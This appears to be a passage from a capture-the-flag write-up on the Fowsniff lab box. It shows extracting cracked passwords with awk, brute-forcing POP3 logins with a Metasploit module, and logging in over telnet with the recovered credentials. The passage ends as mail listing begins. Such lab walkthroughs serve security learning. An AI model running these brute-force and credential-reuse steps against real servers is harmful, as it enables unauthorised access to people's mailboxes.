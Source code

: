 ```bash
cat credentials_hashed.txt | awk -F ':' '{print $2}' > passwords.txt
```

## Enumeration

### Website by IP - TCP 80

It is a simple webpage, nothing seems to be interesting and looking the source code I couldn't find anything interesting.

### POP3 - TCP 110

#### Metasploit

Following the steps of this [report](https://www.infosecmatter.com/metasploit-module-library/?mm=auxiliary/scanner/pop3/pop3_login):

```
$ msfconsole
use auxiliary/scanner/pop3/pop3_login
set RHOSTS 10.10.30.229
set USER_FILE loot/users.txt
set PASS_FILE loot/passwords.txt
set STOP_ON_SUCCESS true
exploit
```

After a while I find the user name and password:

```
[-] 10.10.30.229:110      - 10.10.30.229:110 - Failed: 'mauer:mailcall', ''
[-] 10.10.30.229:110      - 10.10.30.229:110 - Failed: 'mustikka:skyler22', ''
...SNIP...
[+] 10.10.30.229:110      - 10.10.30.229:110 - Success: 'seina:scoobydoo2' '+OK Logged in.  '
```

#### Telnet

Using the `telnet` command and following this [guide](https://www.shellhacks.com/retrieve-email-pop3-server-command-line/) to know what commands are available I login:

```
telnet 10.10.30.229 110
Trying 10.10.30.229...
Connected to 10.10.30.229.
Escape character is '^]'.
+OK Welcome to the Fowsniff Corporate Mail Server!
USER seina
+OK
PASS scoobydoo2
+OK Logged in.
```

List all messages in the server:
